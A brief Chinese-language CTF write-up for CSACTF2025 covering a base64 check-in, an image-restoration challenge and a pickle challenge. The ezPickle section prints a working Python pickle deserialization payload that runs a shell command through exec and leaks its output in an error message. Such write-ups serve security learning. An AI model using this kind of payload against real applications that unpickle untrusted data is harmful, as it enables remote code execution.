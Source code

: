 ```yaml
---
title: CSACTF2025 Writeup
date: 2025-08-30T18:30:59+08:00
tags:
---
```


鉴定为纯失

# CheckIn

[Recipe](https://lab.tonycrane.cc/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UTFOQlExUkdlMDB4Ym1Selh6RnVkR1Z5ZEhjeGJtVmtYeVpmVTJWamRYSXhkSGxmUkROek1XZHVNMlI5DQoNCg&ieol=CRLF&oeol=CRLF)

# HidenWorld

Deformed-Image-Restorer一把梭了。

![](hw.png)
# ezPickle

根本不要出网啊这道题

看见它放hint *https://requestrepo.com* 然后变成 *无回显的rce，https://requestrepo.com* 

然后又加了*容器可以出网* 然后又加了 *可以利用app的某些方法辅助rce*

我就想笑

```python
import pickle
import os
import base64

class Exploit(object):
    def __reduce__(self):
        import base64
        cmd = '/readflag'
        return (exec, (
f"""
import os,base64
output = os.popen('{cmd}').read()
encoded_output = base64.b64encode(output.encode()).decode()
raise ValueError(encoded_output)
""",))
payload = pickle.dumps(Exploit())
encoded_payload = base64.b64encode(payload).decode()
print(encoded_payload)
```
